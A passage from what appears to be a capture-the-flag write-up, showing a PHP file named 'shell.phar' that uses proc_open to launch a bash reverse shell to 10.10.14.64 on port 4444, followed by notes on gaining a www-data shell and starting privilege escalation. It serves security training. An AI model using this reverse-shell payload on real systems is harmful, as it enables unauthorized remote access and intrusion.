 ```shell.phar``` file.
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('bash', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], 'bash -i >& /dev/tcp/10.10.14.64/4444 0>&1');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>

```

Executing the shell we get the connection back in our machine.

![Shell as www-data](10.png "Shell as www-data")

## www-data -> developer

Looking for interesting files, we have two files in the ```/home/developer/dev/``` directory.

![/home/developer/dev/](11.png "/home/developer/dev/")

